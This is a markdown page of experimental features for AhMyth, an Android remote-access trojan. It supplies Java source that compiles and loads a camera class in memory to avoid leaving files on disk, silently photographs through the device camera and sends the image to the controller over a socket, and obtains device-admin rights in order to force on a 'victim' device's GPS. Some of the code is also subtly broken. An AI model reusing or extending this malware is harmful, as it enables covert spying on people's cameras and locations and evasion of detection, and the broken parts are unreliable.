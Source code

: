 # <div align="center">Experminetal Features</div>

A file used to store code for experimental client and server features that could be released with future releases if they prove successful.

<details>
  <summary>Experimental Client Features</summary>

## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>

<div align="center">An experimental feature inspired by the Android equivalent of Metasploit Framework's Meterpreter Payload.</div>
<br>

<details>
  <summary>Code</summary>
<br>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import org.apache.commons.vfs2.*;
import org.apache.commons.vfs2.provider.ram.RamFileProvider;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.OutputStream;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            // Create an in-memory file system manager with RamFileProvider
            FileSystemManager fsManager = VFS.getManager();
            fsManager.addProvider("ram", new RamFileProvider());

            // Define the path to the in-memory Java source file
            String javaFilePath = "ram:///CameraManager.java";

            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            // Create an in-memory file for the Java source code
            FileObject javaFile = fsManager.resolveFile(javaFilePath);
            
            // Write the generated Java source code to the in-memory file
            try (OutputStream os = javaFile.getContent().getOutputStream()) {
                os.write(camTempSourceCode.getBytes());
            }

            // Define the path to the in-memory .dex file
            String dexPath = "ram:///CameraManager.dex";

            // Create an in-memory file for the compiled .dex
            FileObject dexFile = fsManager.resolveFile(dexPath);

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFileObj = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFileObj.toString();

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, javaFilePath); // Compile the in-memory Java source file

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            // Load the compiled .dex from in-memory
            ClassLoader classLoader = new DexClassLoader(
                    dexFile.getURL().toString(),
                    null,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
<br>

- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

<details>
  <summary>Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs all of the following operations listed below, dynamically in memory, meaning that nothing gets written to disk (aka the Android fileSystem)
  
  <br>

## <div align="center"><ins>Generation Phase</div></ins>
1. **In memory:** Creates an in-memory file system manager with the *RamFileProvider*.
2. **In memory:** Defines the path to the in-memory Java source file `("ram:///CameraManager.java")`.
3. **In memory:** Retrieves the source code for the `"CameraManager"` class from `"CamTemp.CAMERA_SOURCE_CODE."`
4. **In memory:** Creates an in-memory file to store the Java source code.
5. **In memory:** Writes the generated Java source code to the in-memory file.

## <div align="center"><ins>Loading Phase</div></ins>
6. **In memory:** Defines the path to the in-memory *.dex* file `("ram:///CameraManager.dex")`.
7. **In memory:** Creates an in-memory file to store the compiled *.dex* file.
8. **In memory:** Defines the structure and content of the `"CameraManager"` class using *JavaPoet*.
9. **In memory:** Converts the JavaPoet representation of the class to a string.
10. **In memory:** Compiles the in-memory Java source code into a .dex file using the *Java Compiler*.
11. **In memory:** Checks the compilation result, and if successful, prints "Compilation succeeded."
12. **In memory:** Loads the compiled .dex file into memory using a *DexClassLoader*.
13. **In memory:** Attempts to create an instance of the dynamically generated `"CameraManager"` class in memory.

**Reiteration:**

In both the Generation and Loading Phases, most actions are performed in memory. The code dynamically generates, compiles, and loads the `"CameraManager"` class along with its source code and compiled *.dex* file, all within the program's memory space. The only actions not performed in memory are related to the file system, where it writes the generated Java source code and reads the compiled *.dex* file.

</details>
<br>

## <div align="center">Device Admin Privileges</div>

This will hopefully give the AhMyth Payload Administrator Privileges for future features.

<details>
  <summary>Code</summary>
  <br>

- DeviceAdmin.java
```java
package ahmyth.mine.king.ahmyth;

import android.app.admin.DeviceAdminReceiver;

import android.app.admin.DevicePolicyManager;

import android.content.ComponentName;

import android.content.Context;

public class DeviceAdmin extends DeviceAdminReceiver {

    static DevicePolicyManager getDPM(Context context) {

        return (DevicePolicyManager)context.getSystemService(Context.DEVICE_POLICY_SERVICE);

    }

    public static ComponentName getComponentName(Context context) {

        return new ComponentName(context.getApplicationContext(), DeviceAdmin.class);

    }

}
```
</details>
<br>
  
## <div align="center">Automatically Enable Victim GPS</div>

This will hopefully allow automatic enabling of the victim device's GPS, Device Administration Privileges are required for this to work, hence the need for the **DeviceAdmin.java** code above.

<details>
  <summary>Code</summary>
  <br>
  
- LocationManager.java
```java
    private void activateGps(Context context) {

        SharedPreferences prefs = PreferenceManager.getDefaultSharedPreferences(context);

        if (!prefs.getBoolean("allow_location_modechange", false))

            return;

        if (!DeviceAdmin.getDPM(context).isAdminActive(DeviceAdmin.getComponentName(context)))

            return;

        if (!DeviceAdmin.getDPM(context).isDeviceOwnerApp(context.getApplicationContext().getPackageName()))

            return;

        DeviceAdmin.getDPM(context).setSecureSetting(

                DeviceAdmin.getComponentName(context),

                Settings.Secure.LOCATION_MODE,

                Integer.toString(Settings.Secure.LOCATION_MODE_HIGH_ACCURACY)

        );

        Log.d("Done", "Forcefully enabled GPS");

    }

    private void getLocation(Context context) throws SecurityException {

        activateGps(context);

        LocationManager locationManager = (LocationManager) context.getApplicationContext().getSystemService(Context.LOCATION_SERVICE);

        locationManager.requestSingleUpdate(LocationManager.GPS_PROVIDER, null);

    }
```
<br>

- Settings.java
```java
        perms.put("allow_location", new String[]{

                Manifest.permission.ACCESS_FINE_LOCATION,

        });

        perms.put("allow_location_modechange", new String[]{

                Manifest.permission.BIND_DEVICE_ADMIN,

        });
```
</details>

</details>

<details>
  <summary>Experminetal Server Features</summary>

### Nothing to show.

</details>
